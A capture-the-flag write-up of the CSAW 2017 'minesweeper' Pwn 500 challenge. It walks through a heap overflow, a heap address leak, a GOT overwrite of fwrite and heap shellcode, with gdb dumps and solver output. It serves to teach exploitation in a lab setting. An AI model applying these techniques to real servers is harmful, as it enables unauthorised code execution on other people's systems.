

# minesweeper
## Pwn 500

#### direwolf 

Opening this in a disassembler initially doesn't show us much - no xrefs, no strings, few functions, etc. Additionally, running `file` shows that it's a stripped binary with no additional details. Running a quick xxd on the header shows us why -- the binary is UPX packed.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> upx -d minesweeper_packed
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2013
    UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

        File size         Ratio      Format      Name

     13132 <-      7936   60.43%  netbsd/elf386  minesweeper_packed

    Unpacked 1 file.
    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>>

With that out of the way, we can get started.

This binary is a forking server listening on 31337. It provides a menu where we can start a new game, intiialize a board, or quit. To start, let's see what happens when we play a new game and view the board.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> nc localhost 31337

    Hi. Welcome to Minesweeper. Please select an option:
    1) N (New Game)
    2) Initialize Game(I)
    3) Q (Quit)
    n
    Welcome. The board has been initialized to have a random *mine*placed in the midst. Your job is to uncover it. You can:
    1) View Board (V)
    2) Uncover a location (U X Y). Zero indexed.
    3) Quit game (Q)
    v
    OOOOO
    OOOOO
    OOOXO
    OOOOO
    OOOOO
    v

    i~�
    �x�

    +���

    ؎
    ����

We see that this shows a default game board and sprays some extra bytes back at us too (this is useful later). From here, we can try to play the game (but I never actually got it to work). 

The other option is to initialize our own board.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> nc localhost 31337

    Hi. Welcome to Minesweeper. Please select an option:
    1) N (New Game)
    2) Initialize Game(I)
    3) Q (Quit)
    i
    Please enter in the dimensions of the board you would like to set in this format: B X Y
    B 10 10
    HI THERE!!
      +---------------------------+---------------------------+
      |      __________________   |                           |
      |  ==c(______(o(______(_()  | |''''''''''''|======[***  |
      |             )=\           | |  EXPLOIT   \            |
      |            / \            | |_____________\_______    |
      |           /   \           | |==[--- >]============\   |
      |          /     \          | |______________________\  |
      |         / RECON \         | \(@)(@)(@)(@)(@)(@)(@)/   |
      |        /         \        |  *********************    |
      +---------------------------+---------------------------+
                                                               
    IIIIII    dTb.dTb        _.---._       
      II     4'  v  'B   ."""" /|\`."""". 
      II     6.     .P  :  .' / | \ `.  : 
      II     'T;. .;P'  '.'  /  |  \  `.' 
      II      'T; ;P'    `. /   |   \ .'  
    IIIIII     'YvP'       `-.__|__.-'     
    -msf                                   
    Please send the string used to initialize the board. Please send X * Y bytes follow by a newlineHave atleast 1 mine placed in your board, marked by the character X

At this point, the server prints a debug statement:

    Allocated buffer of size: 81

This is obviously an off-by-one issue where, instead of allocated 10\*10 bytes, the server has allocated 9\*9. This sounds like a decent overflow candidate and can be verified by connecting gdb, sending 100 bytes (with the mandatory 'X' character) and catching the segfault. I used a pwntools `cyclic()` for this.

    [----------------------------------registers-----------------------------------]
    EAX: 0x61617761 ('awaa')
    EBX: 0x0
    ECX: 0x4
    EDX: 0x61617861 ('axaa')
    ESI: 0x1
    EDI: 0xf778f000 --> 0x1b5db0
    EBP: 0xffeb8df8 --> 0xffeb8e38 --> 0xffeb8e88 --> 0xffeb8ed8 --> 0xffeb8ef8 --> 0xffeb8f48 (--> ...)
    ESP: 0xffeb8de0 --> 0x0
    EIP: 0x8049855 (mov    DWORD PTR [eax+0x8],edx)
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x804984c:	mov    eax,DWORD PTR [ebp+0x8]
       0x804984f:	mov    eax,DWORD PTR [eax+0x4]
       0x8049852:	mov    edx,DWORD PTR [ebp-0xc]
    => 0x8049855:	mov    DWORD PTR [eax+0x8],edx
       0x8049858:	mov    eax,DWORD PTR [ebp+0x8]
       0x804985b:	mov    eax,DWORD PTR [eax+0x8]
       0x804985e:	mov    edx,DWORD PTR [ebp-0x10]
       0x8049861:	mov    DWORD PTR [eax+0x4],edx
    [------------------------------------stack-------------------------------------]
    0000| 0xffeb8de0 --> 0x0
    0004| 0xffeb8de4 --> 0xf778f000 --> 0x1b5db0
    0008| 0xffeb8de8 ("awaaaxaa\004")
    0012| 0xffeb8dec ("axaa\004")
    0016| 0xffeb8df0 --> 0x4
    0020| 0xffeb8df4 --> 0x9c5d024 ("Xaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaa\022")
    0024| 0xffeb8df8 --> 0xffeb8e38 --> 0xffeb8e88 --> 0xffeb8ed8 --> 0xffeb8ef8 --> 0xffeb8f48 (--> ...)
    0028| 0xffeb8dfc --> 0x80499ea (add    esp,0x10)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x08049855 in ?? ()
    gdb-peda$

As we see here, we have an arbitrary write to the address at eax+0x8. Time to check our memory map.

    gdb-peda$ vmmap
    Start      End        Perm	Name
    0x08048000 0x0804b000 r-xp	/mnt/hgfs/VMShare/ShellCollectingClub/CSAW2017/minesweeper/minesweeper
    0x0804b000 0x0804c000 rwxp	/mnt/hgfs/VMShare/ShellCollectingClub/CSAW2017/minesweeper/minesweeper
    0x09c5d000 0x09c5e000 rwxp	[heap]
    0xf75d9000 0xf778d000 r-xp	/lib/i386-linux-gnu/libc-2.24.so
    0xf778d000 0xf778f000 r-xp	/lib/i386-linux-gnu/libc-2.24.so
    0xf778f000 0xf7790000 rwxp	/lib/i386-linux-gnu/libc-2.24.so
    0xf7790000 0xf7793000 rwxp	mapped
    0xf77bb000 0xf77be000 rwxp	mapped
    0xf77be000 0xf77c0000 r--p	[vvar]
    0xf77c0000 0xf77c2000 r-xp	[vdso]
    0xf77c2000 0xf77e5000 r-xp	/lib/i386-linux-gnu/ld-2.24.so
    0xf77e5000 0xf77e6000 r-xp	/lib/i386-linux-gnu/ld-2.24.so
    0xf77e6000 0xf77e7000 rwxp	/lib/i386-linux-gnu/ld-2.24.so
    0xffe99000 0xffeba000 rwxp	[stack]
    gdb-peda$

Lots of joy with rwx stack and heap (which we can also verify with peda's nxtest if we really want to). We can then use peda's searchmem function to find our cyclic pattern in memory, which shows us that our buffer is on the heap (reenforced by the message showing that the server just allocated us some memory. 

Given that the heap is executable and the server lets us send an arbitrary buffer of up to `n` bytes, this seems like a great place to store some shellcode and return. Assuming that ASLR is on (which I didn't actually test but seemed like a solid assumption based on other challenges this competition), we need a memory leak. This is where the ability to View the board comes in.

Starting a new session and viewing the board again - we can inspect the extra memory that was thrown back at us for any addresses that jump out. Since this is a new session, we only see stack addresses. On a hunch, I allocated a new initial board and viewed it, this time yielding some heap addresses which give us a constant offset to our buffer. Success! 

The next challenge is finding a candidate to write too. Luckily, from parsing the disassembly, we find a call to fwrite shortly after our input is written to the buffer ("Delinked!"). So, we overwrite fwrite's GOT with the address to our heap buffer and get code exec!

From here, I upped the buffer size to make some more room for shellcode. There were also some issues where additional board data was written to the buffer afterward which would mangle our shellcode. While I'm sure there is a smarter, more precise solution, I did a `read` syscall to a later position in our buffer (shellcraft is great) to write unmangled shellcode, then did a relative jump to that with a `cat flag` to win.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> ./win.py 
    [*] '~/ShellCollectingClub/CSAW2017/minesweeper/minesweeper'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [*] Loaded cached gadgets for './minesweeper'
    [+] Opening connection to pwn.chal.csaw.io on port 7478: Done
    leaking some heap:
    Heap is: 0x93740f0
    Target is: 0x9374100
    [*] Switching to interactive mode

    flag{h3aps4r3fun351eabf3}

Overall, relatively straightforward for a 500pt challenge. See win.py for our solution!
